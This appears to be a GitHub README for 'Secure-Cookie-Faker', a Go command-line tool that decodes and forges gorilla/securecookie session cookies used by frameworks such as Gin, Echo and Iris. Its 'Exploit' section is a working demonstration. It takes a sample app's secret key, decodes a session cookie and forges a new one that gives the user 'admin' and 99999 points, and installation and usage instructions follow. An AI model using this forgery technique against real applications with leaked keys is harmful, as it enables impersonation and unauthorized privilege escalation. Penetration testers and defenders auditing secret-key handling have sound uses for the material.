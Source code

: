 # Secure-Cookie-Faker

security tool to encode/decode Golang web-frameworks' client-side session cookie which use [gorilla/securecookie](https://github.com/gorilla/securecookie) or [gorilla/sessions](https://github.com/gorilla/sessions), such as Gin, Echo or Iris

***

## Stats

top stars Go web-frameworks' using of [gorilla/securecookie](https://github.com/gorilla/securecookie) or [gorilla/sessions](https://github.com/gorilla/sessions)

(stars count comes from [go-web-framework-stars](https://github.com/mingrammer/go-web-framework-stars))

| web framework                                    | stars | uses gorilla's securecookie or sessions? |
| ------------------------------------------------ | ----- | ---------------------------------------- |
| [gin](https://github.com/gin-gonic/gin)          | 28126 | ✔                                        |
| [beego](https://github.com/astaxie/beego)        | 20805 | ✘                                        |
| [iris](https://github.com/kataras/iris)          | 15102 | ✔                                        |
| [echo](https://github.com/labstack/echo)         | 14180 | ✔                                        |
| [kit](https://github.com/go-kit/kit)             | 13920 | ✘                                        |
| [revel](https://github.com/revel/revel)          | 11125 | ✘                                        |
| [martini](https://github.com/go-martini/martini) | 10572 | ✔                                        |

and many personal application using them as a basic web application toolkit [link](https://github.com/search?q=import+%22github.com%2Fgorilla%2Fsessions%22&type=Code)

***

## Exploit

secret-key ensures the safety of the client-side cookie, if secret-key was gotten by **source code leaked**, **LFI**, or ...etc., hacking that web application becomes so easy

take the Gin web-framework as an example

**source code:**

```go
package main

import (
    "github.com/gin-gonic/gin"
    "github.com/gin-contrib/sessions"
    "github.com/gin-contrib/sessions/cookie"
)

func main() {
    r := gin.Default()

    store := cookie.NewStore([]byte("xxxxxxxxxxxx"))
    r.Use(sessions.Sessions("session", store))

    r.GET("/", func(c *gin.Context) {
        session := sessions.Default(c)
        session.Set("user", "test")
        session.Set("id", 100)
        session.Set("point", 0)
        session.Save()
    })

    r.GET("/show", func(c *gin.Context) {
        session := sessions.Default(c)
        user := session.Get("user")
        id := session.Get("id")
        point := session.Get("point")
        c.JSON(200, gin.H{
            "user": user,
            "id": id,
            "point": point,
        })
    })

    r.Run(":5000")
}
```

request to `/`，get cookie: 

`Set-Cookie: session=MTU2MTE4NjIzNnxEdi1CQkFFQ180SUFBUkFCRUFBQVVQLUNBQU1HYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBWUFCSFJsYzNRR2MzUnlhVzVuREFRQUFtbGtBMmx1ZEFRREFQX0lCbk4wY21sdVp3d0hBQVZ3YjJsdWRBTnBiblFFQWdBQXxlwq6mxtwXuKDMeXOyDaHpR-Hcn0veF2OmBqc4F76puQ==`

decode it

```
λ .\faker.exe -dec -n session -k xxxxxxxxxxxx -c "MTU2MTE4NjIzNnxEdi1CQkFFQ180SUFBUkFC RUFBQVVQLUNBQU1HYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBWUFCSFJsYzNRR2MzUnlhVzVuREFRQUFtbGtBMmx1ZEFRREFQX0lCbk4wY21sdVp3d0hBQVZ3YjJsdWRBTnBiblFFQWdBQXxlwq6mxtwXuKDMeXOyDaHpR-Hcn0veF2OmBqc4F76puQ=="
map[id:100 point:0 user:test]
type detail:
{
    user[string]: test[string],
    id[string]: 100[int],
    point[string]: 0[int],
}
```

fake identity

```
λ .\faker.exe -enc -n session -k xxxxxxxxxxxx -o "{user:admin, id:0[int], point:99999[ int]}"
MTU2MTE4NjQzNHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUJUXzRJQUF3WnpkSEpwYm1jTUJnQUVkWE5sY2daemRISnBibWNNQndBRllXUnRhVzRHYzNSeWFXNW5EQVFBQW1sa0EybHVkQVFDQUFBR2MzUnlhVzVuREFjQUJYQnZhVzUwQTJsdWRBUUZBUDBERFQ0PXwKR14WwPjXeUBZlZ0sKcEfRu-n7_va9drjsFaIEVahmA==
```

modify cookie, then request to `/show`，we are admin now

***

## Installation

```
go get github.com/eddieivan01/secure-cookie-faker
go install -ldflags="-s -w"
```

or 

```
git clone https://github.com/eddieivan01/secure-cookie-faker.git
cd secure-cookie-faker
go build -ldflags="-s -w" -o faker && ./faker
```

or

download binary file from [releases page](https://github.com/eddieivan01/secure-cookie-faker/releases)

***

## Usage

```
Secure Cookie Faker v0.1

Usage: faker [-enc/dec] [-n cookie_name] [-k secret_key] [-o object_string / -c cookie_string]

Options:
  -c string
​        cookie to be decoded
​        if mode is decode, this param is required
  -dec
​        decode mode, cookie => object
  -enc
​        encode mode, object => cookie
  -h    show help
  -k string
​        secret keys, string like "key" or "key1, key2, key3"
  -n string
​        cookie name
  -o string
​        object to be encoded, string like "{key1[type]: value1[type], key2[type]: value2[type]}"
​        type could be `int`, `float`, `bool`, `string`, `byte`
​        when type is `string`, it could be omitted. like this {str1: str2}
​        if mode is encode, this param is required
```

## Example

choosing a mode is required: enc or dec
```
./faker -dec -n "mysession" -k "secret_key" -c "MTU2MTE4NjQzNHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUJUXzRJQUF3WnpkSEpwYm1jTUJnQUVkWE5sY2daemRISnBibWNNQndBRllXUnRhVzRHYzNSeWFXNW5EQVFBQW1sa0EybHVkQVFDQUFBR2MzUnlhVzVuREFjQUJYQnZhVzUwQTJsdWRBUUZBUDBERFQ0PXwKR14WwPjXeUBZlZ0sKcEfRu-n7_va9drjsFaIEVahmA=="
```

`-n` means the cookie name, its required because the cookie generation relies on it

`-k` means the secret key(s), could be multiple: `-k "key1, key2, key3"`

`-c` means the cookie to be decoded

***

when encode a object

```
./faker -enc -n "mysession" -k "secret" -o "{user: admin, id: 0[int]}"
```

`-o `means the object string，its like a K-V map. 

when the element is `string` type, the type tag can be omitted

the type tag can only be `int`, `float`, `bool`, `string`, `byte`

***

## Feature

* CLI tool to fake session-cookie, and if you need, you can take it as a library function, all necessary variables are exportable
* parse the type hint when decoding / choose the type when encoding

***

## TODO

- [ ] support slice type
```

```